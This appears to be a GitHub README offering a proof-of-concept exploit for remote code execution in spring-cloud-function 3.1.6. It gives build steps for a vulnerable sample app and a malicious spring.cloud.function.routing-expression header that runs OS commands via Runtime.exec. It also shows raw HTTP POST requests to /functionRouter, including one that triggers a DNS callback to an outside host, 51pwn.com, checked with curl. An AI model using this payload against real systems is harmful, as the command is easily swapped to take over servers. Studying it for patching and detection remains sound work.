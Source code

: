 spring-spel-0day-poc
spring-cloud/spring-cloud-function RCE EXP POC https://github.com/spring-cloud/spring-cloud-function header

spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a calculator.app")
build
wget https://github.com/spring-cloud/spring-cloud-function/archive/refs/tags/v3.1.6.zip
unzip v3.1.6.zip
cd spring-cloud-function-3.1.6
cd spring-cloud-function-samples/function-sample-pojo
mvn package
java -jar ./target/function-sample-pojo-2.0.0.RELEASE.jar
image

get path lists for test
find . -name "*.java"|xargs -I % cat %|grep -Eo '"([^" \.\/=>\|,:\}\+\)'"'"']{8,})"'|sort -u|sed 's/"//g'
...
functionRouter
uppercase
lowercase
...
image

poc1
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a /System/Applications/Calculator.app")
Content-Length: 5

51pwn
image

poc2
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("random87535.rce.51pwn.com")
Content-Length: 5

51pwn
check
curl -v 'https://51pwn.com/dnslog?q=random87535.rce.51pwn.com'
